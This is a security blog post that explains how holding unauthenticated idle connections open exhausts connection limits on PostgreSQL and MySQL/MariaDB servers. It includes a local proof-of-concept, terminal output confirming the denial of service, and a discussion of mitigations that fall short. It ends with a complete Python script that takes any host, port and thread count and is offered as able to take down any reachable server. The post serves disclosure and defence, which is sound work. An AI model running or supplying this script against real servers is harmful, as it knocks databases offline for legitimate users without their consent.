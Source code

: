 ```yaml
---
layout: post
title: "How to DoS MySQL/MariaDB and PostgresSQL Servers With Fewer Than 55kb of Data"
author: "Joshua Rogers"
categories: security
---
```


At the heart of any Denial of Service (DoS) attack, there are two variables: a resource, and the limit of which that resource can grow to: network bandwidth, processing power, connection limits, and so on.
Traditionally, in any successful DoS attack an attacker needs to use of at least the same resource for which they are attacking.
For example, if you're performing a DoS attack on a server with a 10GbE uplink, an attacker will need attack with 10Gb/s of resources to exhaust the resources of the uplink.

That's why I was surprised to discover that it's incredibly easy to DoS MySQL/MariaDB and PostgresSQL servers with very few resources. In this case, the resource that can be exhausted is the number of connections to the database itself.

---

I was recently reading the documentation for PostgresSQL. Specifically, the _max_connections_ attribute: _max_connections (integer)_: _Determines the maximum number of concurrent connections to the database server. The default is typically 100 connections, but might be less if your kernel settings will not support it (as determined during initdb). This parameter can only be set at server start._

It made me wonder: is it possible to open 100 connections to a PostgresSQL database and let it idle, denying service to legitimate connections of the database? As it turns out, yes, and __even without credentials to access any database__: as long as the SQL server is reachable and it can receive our TCP packets, we can easily deny access to it for legitimate users.

---

I made a quick script to open 100 connections to a local PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

host = '127.0.0.1'
port = 5432

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(postgres_connect, host, port) for _ in range(100)]

        for future in concurrent.futures.as_completed(futures):
            pass
```

and then tested whether I could connect:
```bash
# python3 py.py  &
[1] 1611
# psql -U user -ww -h 127.0.0.1 -d database
psql: error: connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
```

So despite not having any authentication data for the server, we can still DoS it.

---

How much data does this consume in total?
```
# tcpdump -i any -s 0 -w captured_traffic.pcap 'port 5432'
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C700 packets captured
1400 packets received by filter
0 packets dropped by kernel
# tshark -r captured_traffic.pcap -Y "tcp.port == 5432" -T fields -e frame.len | awk '{ sum += $1 } END { print "Total data transferred:", sum / 1024, "KB" }'
Total data transferred: 53.0273 KB
```


So with just 53KB of data, we can totally exhaust PostgresSQL's connection limit. This isn't a rate of data exchange either, as the connection only needs to be left open: data does not need to be sent or received.

---

I ended up testing MySQL/MariaDB too, and as it turns, we can DoS those servers quite easily as well. A [bug report from 2006](https://bugs.mysql.com/bug.php?id=16227) outlines the same issue, but it remains "unfixed". But is it really a bug? That's an open question.

---

In some cases, there can be legitimate reasons to have an SQL server accessible either via the internet or within some private network which may contain illegitimate users. Data in a database doesn't always have to be private, and may be publicly accessible. So how can we stop this attack? Well it's seemingly quite difficult.

We could raise the _max_connections_ limit, but then an attacker can just open more connections. We could use stateful firewalling like Linux's iptables to rate-limit connections, but then an attacker could perform a spoofed syn-flood from a single server [which could overflow the conntrack table](https://blog.cloudflare.com/conntrack-tales-one-thousand-and-one-flows/). Some middleware like pgbouncer or pgpool could also be effective, but then who knows whether we would just exhaust the [connection limit for those softwares](https://www.pgbouncer.org/config.html#max_client_conn).

One might be able to hack away at the source of MySQL/MariaDB or PostgresSQL and not count unauthenticated requests in the _max_connections_ count, but then we might just be able to exhaust the open file descriptor limits. On my system, MariaDB has both soft and hard limits of 32768 ([which is configurable](https://dev.mysql.com/doc/refman/8.0/en/mysqld-safe.html#option_mysqld_safe_open-files-limit)). :
```
# sudo systemctl show mariadb | grep LimitNOFILE
LimitNOFILE=32768
LimitNOFILESoft=32768
```

On my system with PostgresSQL, the soft and hard limits are 1024 and 4096 respectively via ulimit. In reality, this limit is 1000 by default, as [the postgres daemon has an option](https://www.postgresql.org/docs/current/runtime-config-resource.html#GUC-MAX-FILES-PER-PROCESS) to ensure the soft limit won't be reached.
```
# cat /proc/$(ps ax | grep '/[p]ostgres' | awk '{print $1}')/limits | grep 'Max open files'
Max open files            1024                 4096                 files
# grep -nrI 'max_files_per_process' /etc/postgresql
/etc/postgresql/15/main/postgresql.conf:166:#max_files_per_process = 1000		# min 64
```

All of these limits can easily be exhausted.


All in all, I don't have much of a solution here. Monitoring and proactively DROPing any addresses which have too many connections open might be an option, but it's certainly not a good one.


---

I also made a short script which can take down any reachable MySQL/MariaDB and PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

def mysql_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    host = input("Enter the server host: ")
    port = int(input("Enter the server port: "))
    num_threads = int(input("Enter the number of threads: "))
    function_choice = input("Enter 'postgres' or 'mysql' to select the function to run: ")

    with concurrent.futures.ThreadPoolExecutor(max_workers=num_threads) as executor:
        if function_choice == 'postgres':
            futures = [executor.submit(postgres_connect, host, port) for _ in range(num_threads)]
        elif function_choice == 'mysql':
            futures = [executor.submit(mysql_connect, host, port) for _ in range(num_threads)]
        else:
            print("Invalid function choice. Please enter 'postgres' or 'mysql'.")

        # Wait for all threads to finish
        for future in concurrent.futures.as_completed(futures):
            pass
```

